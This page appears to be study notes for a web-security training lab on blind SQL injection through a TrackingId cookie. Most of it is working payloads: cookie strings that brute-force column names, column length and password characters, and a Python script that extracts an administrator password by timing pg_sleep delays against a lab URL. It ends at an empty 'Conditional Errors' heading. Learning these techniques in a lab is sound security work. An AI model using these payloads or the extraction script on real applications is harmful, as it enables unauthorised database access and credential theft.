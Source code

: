 Bruteforcing Column names

```
Cookie : TrackingID = abcdef' AND (SELECT SUBSTRING(CONCAT('a',$column_name$),1,1)='a' from users LIMIT 1)='a
```

Determining Maximum of length of that column

we can use 
```
MAX(LENGTH(column_name))
```

Bruteforce the number to determine the maximum
```
Cookie : TrackingID = abcdef' AND (SELECT MAX(LENGTH(password)) from users)='$1$
```

Bruteforcing data in columns
Let's assume there is password column in users table

```
Cookie : TrackingID = abcdef' AND (SELECT SUBSTRING(password,$1$,1)='$a$' from users LIMIT 1)='a
```

```python
import requests
letters \= \['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z',\\
'1','2','3','4','5','6','7','8','9','0'\]

url \= 'https://ac7f1faa1f7fa42d8008166d004a000a.web-security-academy.net/filter?category=Gifts'
cookie \= 'vQiTsU5UJcK5E5a2'

password \= ''

for i in range(1,21):
	for j in letters:
		final\_cookie \= cookie +"'%3B(select CASE when SUBSTRING(password,{},1)='{}' THEN pg\_sleep(4) else '' end from users where username='administrator')-- -".format(i,j)
		full\_cookie \= {"TrackingId":final\_cookie}
		print("Trying {} position with {}".format(i,j))
		temp \= requests.get(url,cookies\=full\_cookie)
		if temp.elapsed.total\_seconds()\>3:
			password += j
			print(password)
			break

print(password)

```

---

### Conditional Errors
